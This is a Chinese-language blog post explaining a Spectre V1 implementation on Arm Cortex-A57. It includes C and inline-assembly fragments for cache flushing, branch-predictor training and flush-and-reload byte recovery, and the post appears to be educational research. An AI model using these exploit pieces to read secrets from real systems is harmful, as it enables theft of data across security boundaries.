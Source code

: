 ```yaml
---
layout: post
title: Spectre on Arm cortex A57
categories: [Microarchitecture vulnerability]
description: Cache
keywords: Microarchitecture
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Spectre V1 on Arm
本文主要讨论spectre v1在Arm Cortex 57上的实现．具体的原理可以查看论文　https://spectreattack.com/spectre.pdf.
Spectre 的原理不复杂, 但是具体的实现不太好描述 (本人表达能力实在很有限, 高中语文考试基本都是倒数, 如果你不巧看到这个文章看的很糊涂, 可以发邮件问我
, 但是有些问题我也不会). 全部的代码会在毕业设计结束之后开源.
## Spectre V1

最基本的就是，假如我将`array1_size` flush, 那么 CPU 需要一些时间访问物理内存获取变量的值.
这时候很多处理器会触发 out of order execution 乱序执行跳过这个分支判断. CPU 中一般存在一个缓存存储一些分支判断的结果,
在跳过这个判断的时候,会参考这个缓存, 如果之前几次的分支判断都是 True, 那么在乱序执行中, 这个分支就会默认为通过, 从而执行
分支内部的代码. 
```
if (x < array1_size)
    y = array2[array1[x] * 4096];
```
假设现在我们通过一些方法使得分支预测缓存里对于这个判断的结果都是通过, 但是传如一个 `x` 的值大于 `array_size`, 此时程序可以访问一个超出
`array2` 范围的位置, 并且用获取的值访问 `reloadbuffer` (`array1`). 这时候我们可以通过 flush and reload 测信道获取这个值.

## Spectre V1 Arm cortex A57 implementation
有一个开源的仓库目前实现了 Arm 上的Spectre V1攻击, 我的实现中利用了他的分支训练思路, https://github.com/V-E-O/PoC/tree/master/CVE-2017-5753
大致思路如下:

首先我们通过 flush and reload 计算出 cache hit 和 cache miss 的分界是多少.
```
CACHE_THRESHOLD = measure_latency();
```

随后我们开始训练分支并且泄漏我们想要泄漏的字符串. 先将我们的 `reloadbuffer` 从缓存中 flush 掉. 最好在每一次内存操作的时候添加一个内存屏障 `barrier`,
从而保证我们操作内存的时候, 不会因为乱序执行导致 flush 没有结束的时候后面的指令就开始执行. 

```
for (int i = 0; i < 256; i++)
	cacheflush(&reloadbuffer[i * STRIDE]); 
```
```
static inline __attribute__((always_inline)) void barrier(void){
  asm volatile ("DMB SY ");
}
```

我们将我们想要泄漏的字符串大小的值同时也 flush 出缓存, 导致分支判断变慢.
```
cacheflush(&array1_size);
```

这时候我们开始训练分支预测, 将分支预测训练为通过. 只有在 `j` 可以整除 `10` 的时候, `probe_addr` 会是 `target` 也就是我们想要泄漏的地址.
其他时候 `j` 都是 `train_index`, `train_index` 是在 `array1_size` 范围当中的. 每一轮最后 `probe_addr` 会变成 `target` (不在 `array1` 范围中).


```
probe_addr = ((j % 10) - 1) & ~0xFFFF; 
probe_addr = (probe_addr | (probe_addr >> 16)); 
probe_addr = train_index ^ (probe_addr & (target ^ train_index));
cacheflush(&array1_size);   // flush again (I dont know why)
spectre_v1(&probe_addr);
```
```
void spectre_v1(size_t *index) {
	if (*index < array1_size)
	{
		pick = reloadbuffer[fake_buffer[*index] * STRIDE];
	}
}
```

最后我们进行 `reload` 操作, 这里我们用了 `index = ((i * 167) + 13) & 255;` 打乱的访问顺序, 防止 prefetcher 干扰.
假如我们访问一个位置的时间少于我们计算出的 `CACHE_THRESHOLD`, 说明这时候出现了 cache hit, 也就是 `spectre_v1` 函数中访问过了
这个位置. 那么这个值就是我们要泄漏的一个字节. 
```
for (int i = 0; i < 256; i++)
{
	index = ((i * 167) + 13) & 255;
	measured_clock = timed_read(&reloadbuffer[index * STRIDE], &start, &end);
	if (measured_clock <= CACHE_THRESHOLD && index != fake_buffer[tries % array1_size])
		results[index]++; 
}
```

有一些比较重要的汇编内联函数大概是这样:
```
static inline __attribute__((always_inline)) void cacheflush(void* address)
{
  	asm volatile ("DC CIVAC, %0" :: "r"(address));
  	asm volatile ("DSB ISH");
  	asm volatile ("ISB");
}

static inline __attribute__((always_inline)) void barrier(void){
  	asm volatile ("DMB SY ");
}

//#include <time.h>
void clock_init(struct timespec *start){
  	clock_gettime(CLOCK_REALTIME, start);
}

void clock_end(struct timespec *end){
  	clock_gettime(CLOCK_REALTIME, end);
}

uint64_t get_clock(struct timespec start, struct timespec end){
  	return BILLION * (end.tv_sec - start.tv_sec) + end.tv_nsec - start.tv_nsec;
}

static uint64_t timed_read(volatile uint8_t *addr, struct timespec *start, struct timespec *end) {
	volatile uint8_t pick = 0; 
  	clock_init(start);
	pick = *addr;
  	clock_end(end);
	barrier();
  	return get_clock(*start, *end);
}
```


